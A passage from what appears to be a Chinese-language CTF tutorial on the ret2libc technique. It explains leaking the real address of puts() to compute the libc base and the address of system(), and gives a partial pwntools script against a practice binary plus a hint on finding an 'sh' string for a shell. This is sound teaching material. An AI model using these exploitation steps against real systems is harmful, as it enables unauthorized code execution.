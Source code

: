 puts() 和 system() 之间的地址距离是不发生变化的，是 libc 下的可执行文件这一个整体全放入虚拟内存中

所以如果我们知道 puts() 的**真实地址**和在**libc 中的地址**的话，就可以通过 system() 在 libc 中的地址推知 system() 的真实地址了

(这也就算是**地址泄露**的入门)

先运行一下程序，测试一下

[![](assets/1701612384-cb92851804bd191c50b9feb59eb93ab2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204420-ab03880c-167a-1.png)

这里我们不能直接输入地址，是因为 strtol() 函数，我们需要输入字符串

可以得到 puts() 的真实地址 (不能直接利用 plt 中的 puts()，是因为开启了 ASLR，本地与远程的地址是有偏差的)

先构造 system

(这一道题题目给出的 libc 打不通本地，我用的我本地的 libc)

[![](assets/1701612384-4a79581b5f81c0fd1b0f82a07974dac5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204423-acf13e34-167a-1.png)

```plain
from pwn import *

io = process("./ret2libc3")
elf = ELF("./ret2libc3")
libc = ELF("/usr/lib/i386-linux-gnu/libc.so.6")
io.sendlineafter(b' :',str(elf.got['puts']))
io.recvuntil(b" : ")
LibcBase=int(io.recvuntil(b'\n',drop=True),16) - libc.symbols['puts']
system_addr=LibcBase + libc.symbols['system']
```

[![](assets/1701612384-076d4286c6e11e95657013bb340d608b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204428-af70c9ae-167a-1.png)  
对于后门参数，可以借助 elf.search 进行搜索有 sh 的字符串，之后利用 00 截断

从而获得后门参数'sh'

